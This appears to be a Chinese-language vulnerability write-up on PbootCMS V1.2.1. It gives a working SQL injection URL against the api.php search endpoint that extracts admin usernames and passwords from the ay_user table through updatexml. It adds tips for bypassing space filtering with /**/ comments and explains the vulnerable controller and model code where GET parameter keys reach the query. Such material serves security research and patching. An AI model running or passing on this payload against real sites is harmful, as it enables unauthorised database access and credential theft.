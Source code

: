 
0x10.1 接口注入一

0x10.1.1 漏洞演示


```bash
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/search?1%3D1)and(updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1))--=1

post：
    11=11
```

一定要post 要跑空post才能进流程

因为系统中会把 “空格”转为“_” 所以使用/**/绕过即可

0x10.1.2 漏洞讲解

路径：apps\api\controller\CmsController.php

方法：search(

这里我把漏洞触发点发出来我们主要讲讲他即可


```php
// 数据接收
foreach ($_GET as $key => $value) {
  if (! ! $value = get($key, 'vars')) {
    $where[$key] = $value;
  }
}
$data = $this->model->getList($acode, $scode, $num, $order, $where, $fuzzy);
```

从代码中看他会收集外部所有的 $_GET 带入 getList 进行入库查询 value 是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进 getList方法

路径：PbootCMS-V1.2.1\apps\api\model\CmsModel.php

function getList(


```php
// 列表内容
    public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
    {
        ...
        // 筛选条件支持模糊匹配
        return parent::table('ay_content a')->field($fields)
            ->where($where1, 'OR')
            ->where($where2)
            ->where($where, 'AND', 'AND', $fuzzy)
            ->join($join)
            ->order($order)
            ->page(1, $num)
            ->decode()
            ->select();
    }
```
